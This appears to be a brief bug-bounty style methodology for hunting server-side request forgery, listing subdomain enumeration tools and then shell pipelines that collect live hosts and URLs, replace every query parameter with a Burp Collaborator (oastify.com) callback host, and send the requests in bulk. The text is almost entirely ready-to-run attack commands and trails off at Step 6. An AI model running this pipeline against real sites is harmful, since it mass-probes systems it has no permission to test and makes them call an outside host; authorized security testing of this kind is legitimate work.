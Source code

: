 Step 1: Subdomain Enumeration

	•DNS Dumpster
	•Sublist3r
	•Amass
	•Google Dorking
	•Certificate Transparency Logs
	•subdomainer

Step 2 : Find Live Domains

	cat all-domains.txt | httpx > all-live.txt

Step 3 : Identify All URLs

	cat all-live.txt | gauplus -subs -b png,jpg,gif,jpeg,swf,woff,gif,svg -o allUrls.txt

Step 4: Injection Burp Collaborator URL in Parameters

	cat /home/casperino/tools/nuclei/httpx.txt | grep "=" | ./qsreplace 40ga7gynfy6pcg06ov.oastify.com > ssrf.txt

Step 5: Test for SSRF Vulnerabilities

	cat ssrf.txt | httpx -fr

Step 6: How to check which URL is vulnerable

	split -l 10 ssrf.txt output_file_
`